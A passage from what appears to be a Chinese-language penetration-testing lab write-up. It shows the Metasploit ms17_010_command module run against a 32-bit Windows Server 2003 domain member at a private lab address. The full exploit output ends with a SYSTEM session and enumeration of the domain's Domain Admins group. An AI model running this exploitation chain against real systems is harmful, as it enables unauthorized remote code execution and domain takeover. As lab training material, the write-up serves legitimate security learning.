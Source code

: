 
### 尝试ms17_010_command

因为域成员`141`是`32`位的，MSF的永恒之蓝仅支持`x64` ，所以我们换一个全版本的，仅用来执行命令的

```python
msf6 auxiliary(server/socks_proxy) > use auxiliary/admin/smb/ms17_010_command 
msf6 auxiliary(admin/smb/ms17_010_command) > set rhost 192.168.52.141
msf6 auxiliary(admin/smb/ms17_010_command) > run
[*] 192.168.52.141:445    - Target OS: Windows Server 2003 3790                                          
[*] 192.168.52.141:445    - Filling barrel with fish... done                                             
[*] 192.168.52.141:445    - <---------------- | Entering Danger Zone | ---------------->                 
[*] 192.168.52.141:445    -     [*] Preparing dynamite...                                                
[*] 192.168.52.141:445    -             Trying stick 1 (x64)...Miss                                      
[*] 192.168.52.141:445    -             [*] Trying stick 2 (x86)...Boom!                                 
[*] 192.168.52.141:445    -     [+] Successfully Leaked Transaction!                                     
[*] 192.168.52.141:445    -     [+] Successfully caught Fish-in-a-barrel                                 
[*] 192.168.52.141:445    - <---------------- | Leaving Danger Zone | ---------------->                  
[*] 192.168.52.141:445    - Reading from CONNECTION struct at: 0x8d66dd60                                
[*] 192.168.52.141:445    - Built a write-what-where primitive...                                        
[+] 192.168.52.141:445    - Overwrite complete... SYSTEM session obtained!                               
[+] 192.168.52.141:445    - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.52.141:445    - Getting the command output...                                                
[*] 192.168.52.141:445    - Executing cleanup...    
[+] 192.168.52.141:445    - Cleanup was successful                                                       
[+] 192.168.52.141:445    - Command completed successfully!                                              
[*] 192.168.52.141:445    - Output for "net group "Domain Admins" /domain":                              

The request will be processed at a domain controller for domain god.org.                                 

Group name     Domain Admins                        
Comment        ???????                              

Members                                             

-------------------------------------------------------------------------------                          
Administrator            OWA$                                                                            
The command completed successfully.                 
```
